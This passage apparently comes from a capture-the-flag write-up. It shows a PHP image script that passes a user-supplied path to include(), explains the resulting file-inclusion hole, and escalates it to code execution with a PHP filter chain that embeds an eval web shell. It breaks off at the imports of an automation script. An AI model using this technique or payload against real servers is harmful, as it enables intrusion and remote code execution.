     <?php
    
    include('dbconfig.php');
    
        // Get the image ID from the query string
    
        // Fetch image path from the database based on the ID
    
        // Fetch image path
        $image_path = $_GET['path'];
        $hash= $_GET['hash'];
    
        $computed_hash=hash_hmac('sha256', $image_path, $SECRET_KEY);
    
    
        if ($image_path && $computed_hash === $hash) {
            // Get the MIME type of the image
            $image_info = @getimagesize($image_path);
            if ($image_info && isset($image_info['mime'])) {
                $mime_type = $image_info['mime'];
                // Set the appropriate content type header
                header("Content-type: $mime_type");
    
                // Output the image data
                include($image_path);
            } else {
                header("Content-type: application/octet-stream");
                include($image_path);
            }
        } else {
            echo "Image not found";
        }
    
    ?>

The image.php source code confirmed that if the image_path and computed_hash matched the provided hash, the file at the given path was simply included using include($image_path);. This is the core of the Local File Inclusion (LFI) vulnerability.
PHP Filters Chain Exploitation (RCE)

To escalate the LFI to Remote Code Execution (RCE), we utilized PHP filter chains. We generated a chain using php_filter_chain_generator.py to embed the PHP code <?=eval($_GET[0])?>:
Bash

    $ python3 ./php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
    [+] The following gadget chain will generate the following code : <?=eval($_GET[0])?> (base64 value: PD89ZXZhbCgkX0dFVFswXSk/Pg)
    php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp

This produced a filter chain like php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp.

A Python script was written to automate code execution:
Python

    import hmac
    import hashlib
    import requests
    